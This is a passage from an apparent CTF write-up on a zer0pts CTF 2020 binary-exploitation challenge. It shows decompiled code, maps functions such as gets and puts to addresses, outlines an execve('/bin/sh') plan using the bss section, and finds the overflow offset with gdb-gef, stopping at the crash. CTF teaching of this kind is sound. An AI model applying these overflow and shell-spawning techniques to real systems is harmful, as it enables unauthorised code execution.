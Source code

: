 If it was **dynamically linked** binary we could have done something like leak any GOT address and then calculate the offsets to do something like `system("/bin/sh")`. But since it is **statically linked** it is pointless approach, we gotta use stuffs which are available in binary itself.

# Reverse Engineering the Binary

Time to reverse enginneer the binary so that we could get the address of some useful functions. Let's check out the main function:-

```C
__int64 sub_400160()
{
  __int64 v1; // [rsp+0h] [rbp-108h]

  sub_40062F("What's your team name?");
  sub_4004EE(&v1);
  sub_400591((unsigned __int64)"Hi, %s. Welcome to zer0pts CTF 2020!\n");
  return 0LL;
}
```

There we go, from source code we know the following things:-

* `puts("What's your team name?")` : `sub_40062F("What's your team name?")`
* `gets(name)` : `sub_4004EE(&v1)`
* `printf("Hi, %s. Welcome to zer0pts CTF 2020!\n", name)`  :`sub_400591((unsigned __int64)"Hi, %s. Welcome to zer0pts CTF 2020!\n")`



So, now we know that `0x4004EE` is the address of the `gets` and `0x40062F` is the address of `puts` and `0x400591` is the address of the `printf`, let's keep this thing in mind and time to pwn it.


# Pwning Time

So, my initial step was to use any address from `bss` to store thw address of `/bin/sh` and after that make a `exceve` syscall to spawn a shell. I used `pwntools` to automate most of the parts like getting the `bss` address and incrementing it by `0x200` offsets so that the initial address wom't be overwritten as `bss` loads IO related informations. Let's get it done:-

##### Finding offsets

Finding the offset with `gdb-gef`'s `de-brujin` based `pattern search`:-

```r
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef1'
gef➤  r
Starting program: /home/robin/CTFs/chall 
What's your team name?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
Hi, aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa. Welcome to zer0pts CTF 2020!

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
```